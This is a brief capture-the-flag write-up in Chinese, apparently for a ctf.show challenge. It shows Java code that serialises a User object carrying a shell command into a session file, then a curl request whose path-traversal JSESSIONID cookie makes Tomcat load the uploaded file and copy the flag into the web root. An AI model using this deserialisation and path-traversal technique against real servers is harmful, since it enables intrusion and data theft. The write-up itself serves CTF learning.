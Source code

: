 ```java  
import java.io.IOException;    
import java.io.ObjectOutputStream;    
import java.lang.reflect.Field;    
    
public class Vuln1 {    
    public static void main(String[] args) throws Exception {    
        User user = new User();    
        Field username = user.getClass().getDeclaredField("username");    
        username.setAccessible(true);    
        username.set(user,"cp /flag /usr/local/tomcat/webapps/ROOT/flag.txt");    
    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("test.session"));    
        oos.writeObject(user);    
    }    
    
}  
```  
上传文件后，得到目录  
`/usr/local/tomcat/webapps/ROOT/WEB-INF/upload/huahua`  
利用`curl`请求，再触发一下  
```bash  
curl 'http://fdff0a06-5233-4da3-94ab-f6b39075f072.challenge.ctf.show/' -H "Cookie: JSESSIONID=../../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/upload/test"  
```  
